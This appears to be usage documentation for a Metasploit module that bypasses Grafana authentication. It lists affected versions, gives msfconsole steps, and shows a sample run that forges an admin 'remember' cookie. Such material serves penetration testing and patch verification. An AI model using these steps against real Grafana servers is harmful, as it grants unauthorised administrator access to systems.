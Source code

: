 ## Vulnerable Application

The following list is a list of vulnerable versions of Grafana:

  1.  2.x 
  2.  3.x
  3.  4.x befroe 4.6.4
  4.  5.x before 5.2.3

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/admin/http/grafana_auth_bypass```
  3. Do: ``set username <username>`` or ``set cookie <cookie>`` 
  5. Do: ``set version``
    5. Do: ``run``

## Scenarios

  Example run against Grafana 3.x with username admin:

```
msf5 > use auxiliary/admin/http/grafana_auth_bypass 
msf5 auxiliary(admin/http/grafana_auth_bypass) > set username admin
username => admin
msf5 auxiliary(admin/http/grafana_auth_bypass) > set version 3
version => 3
msf5 auxiliary(admin/http/grafana_auth_bypass) > run

[*] Running for 127.0.0.1...
[*] Delete the session cookie and set the following
[+] grafana_user: admin
[+] grafana_remember: 04bb669b935fa628795de56f2eb96c5a0f426b849285bdda46ec5f3e5b4f311e9b
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
